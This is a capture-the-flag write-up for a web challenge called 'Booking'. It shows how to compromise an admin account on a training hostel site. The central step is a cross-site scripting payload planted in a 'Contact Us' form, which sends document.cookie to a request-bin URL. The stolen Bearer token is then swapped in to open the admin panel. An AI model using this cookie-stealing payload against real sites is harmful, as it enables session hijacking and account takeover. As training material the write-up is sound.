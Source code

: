 #### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.<br>
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.<br>
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.<br>

#### Your goals<br>
☛ Find the vulnerable functionality on the web application.<br>
☛ Find a way to compromise an admin account.<br>
☛ Gain access to the hostel's admin panel.<br>


## Process:
<img align="center" src="Images/Booking_01.png"><br>
Sign up and create an account. The credentials don't matter all that much, just remember them.<br>
<img align="center" src="Images/Booking_02.png"><br>
After creating an account, sign in and go to 'My Moose'.<br>
Scroll down to the 'Contact Us' section.<br>
<img align="center" src="Images/Booking_03.png"><br>
Go to this site https://pipedream.com/requestbin in order to create a public bin to continue the process<br> 
<img align="center" src="Images/Booking_04.png"><br>
Copy the endpoint link <br>
<img align="center" src="Images/Booking_05.png"><br>
Go to this site https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md that contains Reflected XSS injection scripts for stealing cookies and use the 3rd script<br>
<img align="center" src="Images/Booking_06.png"><br>
In the 'Contact Us' section, place the script with the endpoint link inside of it, for example: <br>
<img src=x onerror=this.src='https://enqewxf0bhc69.x.pipedream.net/?'+document.cookie;><br>
<img align="center" src="Images/Booking_07.png"><br>
Now you should return to the public bin page and wait a few moments for the requests to appear. <br>
<img align="center" src="Images/Booking_08.png"><br>
What you will need now is the Bearer token that is highlighted in the picture. Double click it and copy. <br>
Return to the Moose site and open up the 'Cookie Editor' extension, and replace the value section with the Bearer token that we just copied. Save it and refresh the page<br>
<img align="center" src="Images/Booking_09.png"><br>
<br>
Now you should see a new yellow button next to 'My Moose' that says 'Admin Panel'. <br>
<img align="center" src="Images/Booking_10.png"><br>
Now this is the buggy part. Enter the admin panel and you will either see a blank page, or you will see the flag. <br>
If you don't see the flag, repeat the login part and redo the cookie edit. Repeat until it works

